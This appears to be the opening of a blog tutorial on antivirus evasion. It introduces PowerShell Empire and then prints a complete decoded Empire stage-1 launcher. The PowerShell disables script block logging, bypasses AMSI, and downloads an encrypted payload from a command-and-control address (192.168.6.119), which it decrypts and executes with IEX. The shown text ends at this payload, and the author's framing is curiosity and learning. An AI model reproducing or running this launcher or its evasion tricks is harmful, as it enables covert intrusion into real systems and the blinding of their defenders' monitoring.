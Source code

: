 ```yaml
---
title: AV Evasion Converting PowerEmpire Stage 1 to CSharp.
classes: wide
---
```


Español [aquí](/AV-Evasion-Converting-PowerEmpire-Stage-1-to-CSharp-ES/)

How can I run PowerEmpire using a .exe instead of a PowerShell command? I asked myself this question and decided to look what the PowerShell Empire command does and replicated it in C#.
 
As we all know PowerShell can use .Net classes, which make PowerShell a strong script language. This is one of the reasons Defenders and Attackers start using PowerShell. Some of the most popular Offensive PowerShell tools are [BloodHound](https://github.com/BloodHoundAD/BloodHound), [PowerEmpire](https://github.com/EmpireProject/Empire), [PowerSploit](https://github.com/PowerShellMafia/PowerSploit), [Nishang tools](https://github.com/samratashok/nishang) to mention a few. 
 
Because PowerShell it’s been heavily used by attackers, Microsoft started to introduce some security controls which allow to monitor PowerShell more closely. 
 
So, let's start with the PowerEmpire Launcher analysis. First, what is PowerShell Empire? It is a Post-Exploitation framework which use PowerShell and cryptologically-secure communications, if you need more information about this project, visit [www.powershellempire.com](www.powershellempire.com). 
 
PowerEmpire has many stages which you can use to launch your attack, for windows it includes dll, macro, hta, bat, vbs, shellcode, etc. So why did I decide to create a C# code for Empire if there is already one? Well let's said that I wanted to understand what Empire does, how it does it and I was wondering if can create my own code.
 
This is how you generate a Launcher:

![pse_launcher](/assets/images/pse_launcher.png)

This is the base64 script decoded:

```
If($PSVErSioNTaBLe.PSVErSIoN.MAjor -gE 3){$GPF=[rEf].AsSeMblY.GetTYpE('System.Management.Automation.Utils')."GeTFie`Ld"('cachedGroupPolicySettings','N'+'onPublic,Static');If($GPF){$GPC=$GPF.GeTValUE($NULL);IF($GPC['ScriptB'+'lockLogging']){$GPC['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging']=0;$GPC['ScriptB'+'lockLogging']['EnableScriptBlockInvocationLogging']=0}$Val=[ColLECTionS.GENeric.DIcTiOnarY[STriNG,SystEm.Object]]::NEw();$vAL.ADD('EnableScriptB'+'lockLogging',0);$VAL.AdD('EnableScriptBlockInvocationLogging',0);$GPC['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB'+'lockLogging']=$vAL}ElSe{[ScRIPtBloCk]."GETFIE`lD"('signatures','N'+'onPublic,Static').SetVALUe($nuLl,(New-OBJect COllEcTIONs.GenErIC.HASHSet[sTRInG]))}[REF].AsSEMBLY.GEtTypE('System.Management.Automation.AmsiUtils')|?{$_}|%{$_.GeTFIeld('amsiInitFailed','NonPublic,Static').SETVALUe($null,$true)};};[SystEM.NeT.SErvicEPOINTManAGeR]::EXPeCt100CoNTinUe=0;$wC=New-ObJecT SYsTem.NET.WeBCLIENt;$u='Mozilla/4.0 (compatible; MSIE 6.0;Windows NT 5.1)';$WC.HEaDERS.ADd('User-Agent',$u);$wC.PRoxY=[SYsteM.NET.WEbRequest]::DeFAulTWEbPROxY;$wC.Proxy.CREdentIaLs = [SyStEM.NEt.CReDenTiaLCACHE]::DefAultNEtWorkCReDEntiALs;$Script:Proxy = $wc.Proxy;$K=[SYsTEm.TEXT.ENcODinG]::ASCII.GeTBYtEs('fdcece0a22c10f83dccc8f17c95a33d4');$R={$D,$K=$ARGs;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.COuNT])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-bXOr$S[($S[$I]+$S[$H])%256]}};$ser='http://192.168.6.119:80';$t='/CWoNaJLBo/VTNeWw11212/';$wc.HeADeRs.AdD("Accept","image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, */*");$Wc.HeaDeRs.Add("Accept-Language","en-en");$WC.HEADErS.AdD("Cookie","session=pRWdj48/Lf2wTAhO2Y7BXpRHz6o=");$DAtA=$WC.DOWnlOADDAtA($SEr+$T);$iv=$datA[0..3];$Data=$DATa[4..$DATA.LENgTh];-jOiN[ChaR[]](& $R $Data ($IV+$K))|IEX
```
